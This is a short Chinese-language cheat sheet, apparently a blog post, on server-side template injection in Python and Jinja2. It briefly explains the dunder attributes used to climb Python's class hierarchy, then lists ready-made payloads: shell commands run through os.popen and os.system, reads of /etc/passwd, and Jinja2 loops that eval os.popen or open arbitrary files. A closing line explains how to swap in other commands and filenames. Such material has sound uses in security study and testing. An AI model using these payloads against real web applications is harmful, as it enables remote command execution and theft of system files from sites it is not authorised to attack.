 



## [3.SSTI模板注入](https://www.cnblogs.com/tr1ple/p/9415641.html)

__class__ ： 返回对象所属的类
__mro__ ： 返回一个类所继承的基类元组，方法在解析时按照元组的
顺序解析。
__base__ ： 返回该类所继承的基类
// __base__和__mro__都是用来寻找基类的
__subclasses__ ： 每个新类都保留了子类的引用，这个方法返回一个
类中仍然可用的的引用的列表
__init__ ： 类的初始化方法
__globals__ ： 对包含函数全局变量的字典的引用

相关pyload：

```
{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}
```



```
{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['
os'].system('ls')}}
```



```
{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
```



关于jinja2 的[payload](https://so.csdn.net/so/search?q=payload&spm=1001.2101.3001.7020)：

```handlebars
#命令执行：



{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}



#文件操作



{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```

其中第一条payload中的[id]可以替换成命令,如ls,cat等,第二条payload的[filename]也可替换成文件名称.
